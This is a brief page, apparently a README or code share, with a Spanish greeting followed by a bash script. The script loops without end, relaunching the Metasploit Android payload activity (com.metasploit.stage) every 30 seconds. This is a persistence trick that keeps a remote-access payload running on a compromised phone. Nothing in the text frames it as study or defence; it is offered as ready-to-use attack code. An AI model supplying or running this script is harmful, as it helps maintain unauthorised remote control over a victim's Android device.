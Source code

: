 # Hola! Bienvenido, vienes por el código?

#!/bin/bash
while true
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MainActivity
sleep 30
done

